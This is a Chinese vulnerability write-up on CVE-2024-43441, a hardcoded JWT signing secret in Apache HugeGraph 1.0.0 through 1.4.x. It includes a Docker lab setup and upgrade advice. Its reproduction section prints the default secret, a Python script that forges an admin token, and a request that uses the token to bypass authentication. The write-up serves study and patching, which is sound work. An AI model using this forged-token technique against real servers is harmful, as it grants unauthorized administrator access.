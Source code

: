 # Apache HugeGraph JWT Token 密钥硬编码漏洞 CVE-2024-43441

## 漏洞描述

Apache HugeGraph 是一款快速、高度可扩展的图数据库。它提供了完整的图数据库功能，具有出色的性能和企业级的可靠性。

Apache HugeGraph 存在一个 JWT token 密钥硬编码漏洞。当启用了认证但未配置 auth.token_secret 时，HugeGraph 将使用一个硬编码的默认 JWT 密钥，其值为 FXQXbJtbCLxODc6tGci732pkH1cyf8Qg。攻击者可以使用这个默认密钥生成有效的 JWT token，从而绕过认证执行未经授权的操作。

参考链接：

- https://github.com/advisories/GHSA-f697-gm3h-xrf9
- https://github.com/apache/incubator-hugegraph/commit/03b40a52446218c83e98cb43020e0593a744a246

## 漏洞影响

```
1.0.0 <= HugeGraph < 1.5.0
```

## 环境搭建

Vulhub 执行如下命令启动 Apache HugeGraph 1.3.0 服务器：

```
docker compose up -d
```

服务启动后，可以通过 `http://your-ip:8080` 访问 HugeGraph 的 RESTful API。

![](images/Apache%20HugeGraph%20JWT%20Token%20密钥硬编码漏洞%20CVE-2024-43441/image-20250217172418414.png)

默认情况下，Apache HugeGraph 支持两种认证模式：HTTP 基础认证和 JWT 认证。当启动 docker 容器时，系统会使用环境变量 PASSWORD 中指定的值作为默认管理员的密码。在正常情况下，您可以使用用户名 "admin" 和该密码通过 HTTP 基础认证访问 API。

如果您尝试在不提供任何认证头的情况下访问 API，将会收到如下错误：

```json
{
    "exception": "class jakarta.ws.rs.NotAuthorizedException",
    "message": "Authentication credentials are required",
    "cause": ""
}
```

![](images/Apache%20HugeGraph%20JWT%20Token%20密钥硬编码漏洞%20CVE-2024-43441/image-20250217173427144.png)

## 漏洞复现

除了默认管理员密码外，我们还可以使用默认 JWT 密钥生成有效的 JWT token 绕过认证。

生成一个使用默认密钥的 JWT token：

```python
# 安装 jwt 库，运行 `pip install pyjwt`
import jwt

# 使用默认密钥生成 JWT token
token = jwt.encode(
    {
      "user_name": "admin",
      "user_id": "-30:admin",
      "exp": 9739523483
    },
    "FXQXbJtbCLxODc6tGci732pkH1cyf8Qg",
    algorithm="HS256"
)
print(f"Generated JWT token: {token}")
# Output:
# Generated JWT token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.eZxB0qIsVEtRuOMwXbOhENwS-OoY0miStHOQlBdJXt8
```

使用生成的 JWT token 访问受保护的端点：

```
GET / HTTP/1.1
Host: your-ip:8080
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.eZxB0qIsVEtRuOMwXbOhENwS-OoY0miStHOQlBdJXt8
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: */*
```

![](images/Apache%20HugeGraph%20JWT%20Token%20密钥硬编码漏洞%20CVE-2024-43441/image-20250217175511416.png)

也可以通过 [jwt.io](https://jwt.io/) 等工具生成 JWT token：

![](images/Apache%20HugeGraph%20JWT%20Token%20密钥硬编码漏洞%20CVE-2024-43441/image-20250217173634634.png)

## 漏洞修复

升级 Apache HugeGraph-Server 至 1.5.0 及以上版本。
